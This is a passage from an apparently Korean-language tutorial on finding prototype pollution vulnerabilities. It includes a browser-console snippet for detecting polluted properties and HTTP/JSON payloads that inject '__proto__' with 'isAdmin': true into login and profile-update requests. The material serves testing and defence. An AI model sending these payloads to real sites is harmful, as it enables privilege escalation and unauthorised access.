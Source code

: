 - 전송 post입니다.

```http
POST /login HTTP/1.1
Host: vulnerable.site
Content-Type: application/json

{
  "__proto__": {
    "isAdmin": true
  }
}
```

## 4. Prototype Pollution취약 여부 분석 방법

### 클라이언트 측 분석 방법

- 아래 코드의 `yourTestKey` 에 의심이 가는 속성 값을 설정 후 브라우저 콘솔창에 코드를 입력합니다.
- 이후 사이트에서 버튼 클릭 등 동작을 수행하며 콘솔에 trace 로그가 남는 여부를 확인합니다. 로그가 남는다면 해당 속성이 Prototype Pollution에 취약할 것으로 추측할 수 있습니다.

```js
Object.defineProperty(Object.prototype, "yourTestKey", {
  get() {
    console.trace("💥 yourTestKey accessed");
    return "polluted";
  },
});
```

### 서버 측 분석 방법

#### 01. JSON 무작위 삽입

- **객체형 입력(JSON)** 이 전달되는 API를 찾습니다.
- 오염 페이로드 전송 (Prototype Pollution Payload)을 시도합니다.

```http
POST /api/profile/update HTTP/1.1
Content-Type: application/json

{
  "__proto__": {
    "isAdmin": true
  }
}
```

```json
{
  "settings": {
    "__proto__": {
      "debug": true
    }
  }
}
```
